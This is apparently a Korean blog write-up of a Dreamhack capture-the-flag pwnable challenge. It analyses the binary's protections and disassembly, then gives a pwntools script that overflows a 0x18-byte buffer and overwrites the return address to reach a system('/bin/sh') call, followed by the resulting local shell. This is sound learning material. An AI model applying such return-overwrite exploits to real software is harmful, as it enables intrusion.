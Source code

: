 ```yaml
---
layout: post
title: "[Dreamhack] stack aligne test"
date: 2025-06-10 11:38 +0900
category: ['Syshack']
tag: ['system', 'dreamhack', 'hacking', 'pwn', 'pwnable', '드림핵', '보안', '시스템', '시스템해킹', '포너블', '해킹']
image: /assets/img/post/stack-aligne-test/image0.png
---
```


> **Dreamhack Syshack Lv.1**

## P1. 문제 분석
문제 파일을 다운받아 실행해보자.

![](/assets/img/post/stack-aligne-test/image1.png)

key라는 이름의 hex값이 있고 각 단계를 순서대로 통과해야한다고 한다.

각 스테이지는 어떻게 클리어해야할까?

![](/assets/img/post/stack-aligne-test/image2.png)

첫번째 단계에 대한 정보이다. 0xCAFEBABE 라는 값과 XOR 한게 인자 값과 같으면 통과 아니면 `exit()`를 실행한다.

이 단계를 3번 통과해야한다. 문제의 의도대로 진행하기 전, 다른 방법을 찾아보기 위하여 `checksec` 명령어를 
입력하여 보호기법을 확인해보자.

```shell
$ checksec ./chall
[*] './stack-aligne-test/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

`Stack`에서 `canary`를 찾을 수 없다고 나온다. `PIE`기법도 적용되어 있지 않기 때문에 각 함수에 접근할 수 있다.

그럼 함수의 시작 주소를 호출할 필요없이 특정 위치를 호출해 단계 검사를 우회할 수 있지 않을까?

그 특정 주소를 구하기 위해 gdb로 디스어셈블을 시도해보자.

```shell
   0x000000000040143c <+134>:   lea    rax,[rip+0xc81]        # 0x4020c4
   0x0000000000401443 <+141>:   mov    rdi,rax
   0x0000000000401446 <+144>:   call   0x4010b0 <system@plt>
   0x000000000040144b <+149>:   nop
   0x000000000040144c <+150>:   leave
   0x000000000040144d <+151>:   ret
```

`get_flag()`함수의 일부분이다. `lea	rax, [rip+0xc81]`로 `rax`레지스터에 `rip+0xc81`의 주소를 넣고 있다. 저 주소 안에는 무엇이 있는지 확인해보자.

```shell
gef➤  x/s 0x4020c4
0x4020c4:       "/bin/sh"
```

`/bin/sh` 문자열이 들어있는 것을 확인했다.

그렇다면, return overwrite 공격을 시도해 0x40143c의 코드를 실행하게 하면 되지 않을까?

overflow에 필요한 dummy를 구하는 방법은 `vulnerable()` 함수 내부를 살펴보면 알 수 있다.

```shell
   0x00000000004014e2 <+5>:     mov    rbp,rsp   # sfp 8byte
   0x00000000004014e5 <+8>:     sub    rsp,0x10  # stack 크기 0x10 -> 16byte
```

overflow가 가능한 입력인지도 확인해보자. 입력을 0x18 이상 받으면 overflow가 가능하다.

```shell
   0x000000000040150b <+46>:    mov    edx,0x100
   0x0000000000401510 <+51>:    mov    rsi,rax
   0x0000000000401513 <+54>:    mov    edi,0x0
   0x0000000000401518 <+59>:    call   0x4010d0 <read@plt>
```

`rdx` 레지스터에 0x100 만큼 넣는다. 어셈블리 코드에서는 `edx`라고 표현되지만 `x86_64` 프로그램이기 때문에 실제 데이터는 `rdx`에 들어가게 된다.

`read()`함수를 호출할 때 `rdx`는 입력을 받을 크기를 지정하기 때문에 0x100 만큼 입력을 받는 것을 알 수 있다.


## P2. Exploit code

```python
from pwn import *

e = ELF('./chall')
p = e.process() 			# local test

payload = b'a' * 0x18
payload += p64(0x40143c) 	# if bypass

p.sendafter(b'Input: ', payload)

p.interactive()
```

```shell
$ python3 ./ex1.py
[*] './stack-aligne-test/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process './stack-aligne-test/chall': pid 18765
[*] Switching to interactive mode
$ ls
13637bed-c937-4fc3-b8f7-b44b3ec185a0.zip  chall.id1  chall.til
chall                                     chall.id2  ex.py
chall.id0                                 chall.nam  ex1.py
$ 
```

local에서 성공했으니 문제 서버에 공격을 시도해보자.

![](/assets/img/post/stack-aligne-test/image3.png)

**Clear!**